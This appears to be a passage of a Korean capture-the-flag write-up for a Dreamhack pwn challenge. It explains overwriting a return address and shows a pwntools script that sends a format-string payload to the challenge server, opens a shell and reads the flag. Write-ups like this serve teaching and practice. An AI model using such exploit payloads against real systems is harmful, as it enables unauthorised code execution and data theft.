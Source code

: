     `\x90*4`: sfp에 아무 문자로 다 채움

    *32bit 환경에서는 sfp가 4byte의 크기*

    *64bit 환경에서는 sfp가 8byte의 크기*

    `\x69\x86\x04\x08`: `ret`에 들어갈 `read_flag`함수의 주소를 리틀엔디안 방식으로 입력

    - 코드 수정 전 실행 이후
        ```
        ECHO : ��������������������������������������������������������������������������������������������������������������������������������
        ```
        쉘이 실행되지 않음

        일반적인 오버플로우 방식이 통하지 않음을 확인

        발생가능한 취약점 중 하나인 포맷 스트링을 사용하여 스택을 정확히 조작

- 코드 수정 이후
    ```
    from pwn import *

    # buf + sfp + get_shell()
    payload = b'%152c' + b'%4c' + b'\x69\x86\x04\x08' 

    r = remote('host3.dreamhack.games', 18968)

    r.send(payload)

    r.interactive()
    ```
    쉘이 실행됨을 확인

- 쉘 실행 이후
    `find -name "flag"`를 입력하여 플래그 파일을 검색
    
    `./flag`

    `cat ./flag`를 입력